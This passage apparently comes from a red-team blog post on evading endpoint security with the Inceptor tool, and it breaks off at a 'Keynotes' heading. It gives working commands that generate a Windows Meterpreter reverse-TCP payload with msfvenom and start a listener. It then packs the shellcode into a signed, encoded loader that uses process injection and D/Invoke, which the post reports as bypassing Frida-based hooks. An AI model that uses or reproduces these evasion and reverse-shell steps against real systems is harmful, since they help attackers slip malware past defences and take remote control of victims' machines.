 ### Demo 2.2: Ok, now with manual mapping!

```
# Console 1: Start Metasploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f raw -o msf.raw
handler -H eth0 -P 4444 -p windows/x64/meterpreter/reverse_tcp

# Console 2: Pack the shellcode
# --sgn: encode the shellcode
# --sign: sign the loader
# -m dinvoke: to load the D/Invoke module
# -P: uses process injection
# --delay 15: Wait for 15 seconds to allow frida to install the hooks!
python inceptor.py dotnet msf.raw -o MySisterFell.exe --sgn --sign -P -m dinvoke --delay 15

# Console 3: Start the demo!
demo.bat MySisterFell.exe
```
The result should be similar to the following, showing the Inceptor loader successfully bypassed Frida:

![We Bypassed It!](imgs/blog/003AVEvasion/We_Bypassed_It.png)

The full video below:

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1uqxqW9ww8QtPs5Ga3WRj9lhQN68OE8Up/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

## Keynotes
